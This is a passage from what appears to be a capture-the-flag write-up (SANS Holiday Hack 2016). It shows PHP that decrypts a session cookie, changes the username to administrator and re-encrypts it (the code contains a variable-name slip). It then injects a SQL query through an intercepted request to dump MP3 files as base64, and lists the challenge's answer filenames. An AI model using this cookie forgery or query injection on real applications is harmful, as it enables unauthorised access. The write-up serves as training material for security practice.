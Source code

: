 		function decrypt($data) {
			return mcrypt_decrypt(MCRYPT_ARCFOUR, KEY, $data, 'stream');
		}
		function encrypt($data) {
			return mcrypt_encrypt(MCRYPT_ARCFOUR, KEY, $data, 'stream');
		}

		$cookie = "82532b2136348aaa1fa7dd2243da1cc9fb13037c49259e5ed70768d4e9baa1c80b97fee8bca82880fc78ba78c49e0753b14348637bec";
		$kake = json_decode(decrypt(pack("H*",$cookie)), true);
		var_dump($kake);
		$shit['username'] = "administrator";
		var_dump($kake);
		$torsk = bin2hex(encrypt(json_encode($kake)));
		print $torsk;
	?>

And that cookie can then be used to gain administrator privilegies, and thus acces the edit page.

We see that we can update a report, but not set the query because it is not in the html. But the can intercept the request, add the query parameter with the value equal to:

	SELECT * FROM `audio`;

Now, we access the report via view.php, and we get two files listed:

id	username	filename	mp3
20c216bc-b8b1-11e6-89e1-42010af00008	guest	discombobulatedaudio2.mp3	 
3746d987-b8b1-11e6-89e1-42010af00008	administrator	discombobulatedaudio7.mp3	 

The actual MP3 is a field, but because it is not possilbe to render the octet stream that is the MP3 file as printable text, we have to use another trick, namely base64, which is supported by the dbms, and we change the query to:

	SELECT filename, TO_BASE64(mp3) FROM `audio`;

Then go to the view, copy the base64-encoded mp3 and decode it.


## 8) What are the names of the audio files you discovered from each system above?

The following audio files originate from the following sources:

- SantaGram APK: **discombobulatedaudio1.mp3**
- Mobile Analytics credentials: **discombobulatedaudio2.mp3**
- Dungeon: **discombobulatedaudio3.mp3**
- Debug Server: **debug-20161224235959-0.mp3**
- Banner Ad Server: **discombobulatedaudio5.mp3**
- Uncaught Exception Handler: **discombobulated-audio-6-XyzE3N9YqKNH.mp3**
- Mobile Analytics post auth: **discombobulatedaudio7.mp3**


# Part 5: Discombobulated Audio 

## 9) Who is the villain behind the nefarious plot. 
